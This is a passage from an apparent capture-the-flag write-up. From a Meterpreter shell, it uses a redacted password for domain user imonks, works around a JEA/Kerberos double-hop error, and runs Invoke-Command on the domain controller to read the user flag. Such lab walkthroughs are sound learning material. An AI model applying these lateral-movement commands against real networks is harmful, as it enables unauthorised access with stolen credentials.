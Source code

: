 **TLDR: JEA is to limit what a domain user can or can't do. (Principle of Least Privilege)**

**In our Meterpreter reverse shell, if we type the exact PowerShell script, we get the exact error message from the screenshots:**
```shell
meterpreter > shell
[...]
C:\Users\edavies\Documents>powershell
[...]
PS C:\Users\edavies\Documents> $passwd = ConvertTo-SecureString "{Redacted}" -AsPlainText -Force
PS C:\Users\edavies\Documents> $cred = New-Object System.Management.Automation.PSCredential ("acute\imonks",$passwd)
PS C:\Users\edavies\Documents> Enter-PSSession -ComputerName ATSSERVER -ConfigurationName dc_manage -Credential $cred
Enter-PSSession : The term 'Measure-Object' is not recognized as the name of a cmdlet, function, script file, or 
operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try 
again.
At line:1 char:1
+ Enter-PSSession -ComputerName ATSSERVER -ConfigurationName dc_manage  ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Measure-Object:String) [Enter-PSSession], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

As you can see, the command `Measure-Object` is not recognized.

According to [Microsoft](https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/enter-pssession-cmdlet-fails-psmodulepath-variable), it's because: **"When a PowerShell session is created and authenticates through Kerberos, the session doesn't support double hop. So, the PowerShell session can't authenticate by using network resources."**

So, maybe the JEA configuration `dc_manage` has some issues, an issue with [Kerberos Double Hop](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/understanding-kerberos-double-hop/ba-p/395463), or both.

Now, instead of start an interactive session with the Domain Controller as domain user `imonks`, **we can just use `Invoke-Command` to execute PowerShell commands on the Domain Controller as domain user `imonks`:**

```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { whoami }
acute\imonks
```

Nice, we can execute commands as domain user `imonks`!

**user.txt:**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { cat C:\Users\imonks\Desktop\user.txt }
{Redacted}
```

